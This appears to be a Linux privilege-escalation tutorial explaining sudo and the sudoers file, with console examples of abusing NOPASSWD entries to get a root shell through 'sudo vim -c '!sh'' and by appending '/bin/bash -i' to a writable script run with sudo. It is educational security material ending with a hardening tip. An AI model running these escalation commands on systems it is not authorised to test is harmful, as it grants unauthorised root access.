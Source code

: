 ### Exploiting sudo
-------------------

#### What is sudo?
------------------
> sudo, originally stood for **'superuser do'**, is a program that allows low-privileged users to run programs and binaries with the security privileges of a high privileged user, by default, the superuser who has the user identifier (UID) of zero regardless of the name of that account (usually 'root' in GNU/Linux distributions) or another user who received some sudo rights.
Users must supply their own passwords for authentification rather than the password of the high privileged account, sudo retains the user's invocation rights during five minutes allowing the user to execute several successive commands without having to provide a password again.
> 
> As a security feature, sudo may be configured to log each command. When a user attempts to invoke sudo without being listed in the configuration file, an alert is presented to the user indicating that the attempt has been recorded, the root user is alerted too and the entry is recorded.

#### Configuration
------------------

The `/etc/sudoers` file controls who can run what commands and can configure if a particular command needs a password or not. The file is composed of aliases and users specification. 

![visudo](./visudo.png)

You can access and edit it only with root privileges with your favorite editor but it is not recommended because improprer syntax can leave you with a broken system, it is far better to use **visudo**.
`sudo visudo`
The **visudo** command opens the `/etc/sudoers` file with the **vi** text editor. Ubuntu has configured **visudo** to use the **nano** text editor instead.

#### Exploitation examples
--------------------------

One of the first commands if not the first that an intruder will use is `sudo -l`. It will show which commands the user could run with **sudo** privilege.

There is a well-known list of binaries that can be used to bypass local security restrictions in misconfigured systems:
<https://gtfobins.github.io/#+sudo>

Let's see some.

```console
hacked@user:~$ sudo -l
[sudo] password for hacked: 
Matching Defaults entries for hacked on user:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacked may run the following commands on user:
    (root) NOPASSWD: /usr/bin/vim
hacked@user:~$ sudo vim -c '!sh'
# whoami
root
#

```
Vim has many awesome functionalities including the ability to open a shell! Just run vim with sudo and in the command mode, just run `:!bash` and a root shell will open. 


It could just be a file!

```console
User hacked may run the following commands on user:
	(root) NOPASSWD: /home/hacked/test.sh
hacked@user:~$ echo "/bin/bash -i" >> test.sh
hacked@user:~$ sudo ./test.sh
root@user:~# id
uid=0(root) gid=0(root) groups=0(root)
root@user:~#

```

:triangular_flag_on_post: **The 'NOPASSWD' specifies that no password will be required, it just should not allowed to simple users in any case as well as commands with root privilege.** 
